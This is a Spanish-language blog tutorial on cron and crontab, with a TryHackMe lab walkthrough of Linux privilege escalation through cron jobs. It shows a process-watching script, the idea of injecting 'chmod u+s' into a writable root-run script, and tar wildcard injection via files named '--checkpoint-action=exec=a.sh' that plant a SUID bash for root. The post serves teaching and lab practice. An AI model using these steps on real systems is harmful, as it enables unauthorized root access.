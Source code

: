 ```yaml
---
title: Explotación de tareas Cron
date: 2021-12-28 16:46:23 +0700
categories: [Privilege Escalation, Linux]
tags: [privesc,linux,cron]
image:
  path: https://i.ibb.co/dPz847N/explotacion-de-tareas-cron.png
  alt: Explotación de tareas Cron 
---
```


A menudo hay formas de hacer las cosas de manera más rápida, como por ejemplo, las tareas. Algunos webmasters en vez de hacerlo manualmente prefieren ahorrarse el tiempo y automatizarlas. Esto en parte está bien, ya que no siempre vamos a poder estar presentes para ejecutar algo, pero a veces por culpa de una mala configuración esto puede salir muy mal.

## Cron

En los sistemas operativos Unix, cron es un demonio (proceso en segundo plano) que se ejecuta cuando alguien arranca el sistema operativo. Este se encargará de comprobar de acuerdo al tiempo especificado, si existe alguna tarea para ser ejecutada.

## Crontab

El crontab es un archivo donde se guardara una lista de comandos a ser ejecutada en un tiempo especificado por el usuario.

## Diferencias entre Cron y Crontab

**crontab** sería el archivo donde se escribirán la lista de comandos o scripts a ser ejecutadas en un determinado tiempo, estará específicamente diseñado para que sea leído correctamente por **cron** y proceder con la ejecución que nosotros hayamos programado.

## ¿Cómo se usa?

Para poner a funcionar una tarea en cron debemos crear un archivo crontab, pero primero debemos saber como es su sintaxis.

![/etc/crontab](https://i.ibb.co/ZTVqLb1/crontab-2.png)

Eso del `<user-name>` no necesario, porque puedes crear un archivo crontab para cada usuario como root, con `crontab -u <username> -e <username>` donde el parámetro `-u` es para especificar el usuario y `-e` para crear/editar las tareas a ejecutar del usuario.

Ejemplo: `*/1 * * * * touch /home/user/temp/$(date | cut -d ' ' -f 5)`

1.  `*/1` : Minuto
2.  `*` : Hora
3.  `*` : Día del mes
4.  `*` : Mes
5.  `*` : Día de la semana
6.  `touch /home/user/temp/$(date | cut -d ' ' -f 5)` : Comando o Script

Las instrucciones que le estamos dando en este ejemplo son bastante simples. Le estamos diciendo que nos cree un archivo que contenga de nombre la hora exacta del momento en el que lo creo. Así es como funcionaria:

![Ejemplo de un archivo crontab](https://i.ibb.co/hRCmb5t/crontab-1.png)

> Recurso para entender como funcionan las expresiones de programación **crontab**: [crontab.guru](https://crontab.guru).

## ¿Cuál es el riesgo de las tareas Cron?

En realidad no debería existir riesgo, pero lamentablemente si hacemos una mala programación de este, sí que lo hay. Por ejemplo, supongamos que te has creado un script en bash para hacer backups de tu sitio web y has programado a cron para que lo ejecute cada 24 horas:

```bash
#!/usr/bin/env bash

backup_files="/home /root /var/www/html"
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"
tar czf /mnt/backup/$archive_file $backup_files
```

Si analizamos el script no tiene nada raro, pero si le hacemos un listado largo al script (`ls -l`) nos muestra los siguientes permisos: `-rwx-w--w-`. Solo tenemos el permiso de escritura… yo sabiendo esto ya se me ocurre un vector de ataque, consiste en agregarle `chmod u+s /usr/bin/bash` con `echo` para que en el momento que cron ejecute el script como usuario root, agregue el permiso SUID a la bash.

## Detección de tareas Cron a través de un script en Bash

Este script hecho en bash sirve para ver tareas/procesos nuevos que están siendo ejecutados en tiempo real.

```bash
#!/usr/bin/env bash

old_process=$(ps -eo command)
while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]"
	old_process=$new_process
done
```

El uso y funcionamiento de este script es muy sencillo, lo que hace sería ejecutar el comando `ps -eo command` y almacenarlo en la variable old_process, luego entra en un bucle infinito donde ejecuta el mismo comando y lo almacena en una nueva variable llamada new_process, porque entre estas dos variables hay diferentes salidas, a pesar de que en las dos ejecutaran el mismo comando aún existe el delay de tiempo del momento en que fueron ejecutadas. Esto nos lleva a comparar las salidas de las dos variables con `diff` y que imprima las diferencias. Antes de repetir el mismo bucle varias veces debemos renovar el contenido de la variable old_process por la de new_process del momento.

> Una alternativa también seria [PsPy](https://github.com/DominicBreuker/pspy).


## Privilege Escalation

Para demostrar que tan critico es esto, voy a hacer una tarea del módulo [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) de la plataforma [TryHackMe](https://tryhackme.com).

### Cron Jobs - Wildcard

Para empezar primero debemos saber que **cron jobs** están corriendo ahora mismo en la máquina, y para detectarlos podemos usar el script ya explicado anteriormente “procmon.sh” (o también puedes usar PsPy). Yo lo crearé y guardaré en el directorio `/tmp` con el nombre `procmon.sh`.

> Ya guardado debemos asegurarnos si el script tiene permiso de ejecución (`chmod +x /tmp/procmon.sh`).

si corremos el script podemos detectar lo siguiente:

![procmon.sh](https://i.ibb.co/wwksFyq/2.png)

```bash
#!/usr/bin/env bash

cd /home/user
tar czf /tmp/backup.tar.gz *
```

lo primero que hace es entrar al directorio `home` de `user` y con el comando `tar` indicando los parámetros `czf` selecciona todos los archivos `*` y los mete en un comprimido llamado `backup.tar.gz` ubicado en `/tmp`.

Aquí nos podemos dar cuenta de algo muy crítico. El comodín `*` que se expande para incluir todos los archivos del directorio especificado. Si vemos la ayuda de `tar` podemos ver unos dos parámetros interesantes:

-   `--checkpoint[=NUMBER]` display progress messages every NUMBERth record (default 10)
-   `--checkpoint-action=ACTION` execute ACTION on each checkpoint

Sabiendo esto nos podemos plantear la siguiente pregunta: ¿y qué tal si en vez de comprimir más archivos mejor le asignamos unos parámetros?. Dado que a los nombres de los archivos los puede interpretar como opciones de parámetros válidos, crearemos `--checkpoint=1`, `--checkpoint-action=exec=a.sh` y un script con el nombre asignado anteriormente (`a.sh`) donde copiaremos la `/bin/bash` a la ruta `/tmp` y le asignaremos el permiso **SUID**.

```shell
user@debian:~$ touch ./--checkpoint=1 ./--checkpoint-action=exec=a.sh && echo 'cp /bin/bash /tmp && chmod u+s /tmp/bash' > ./a.sh && chmod +x ./a.sh
user@debian:~$ ls
a.sh --checkpoint=1 --checkpoint-action=exec=a.sh myvpn.ovpn tools
user@debian:~$ cat ./a.sh
cp /bin/bash /tmp && chmod u+s /tmp/bash
```
Ahora si nos ponemos en escucha con `watch -n 1 ls -l /tmp/bash` y si esperamos un rato, veremos que funciona. Solo nos quedaría ejecutar bash como su propietario con el parámetro `-p` y nos convertiremos en `root`:

![/tmp/bash -p](https://i.ibb.co/HCkH5b5/15.png)
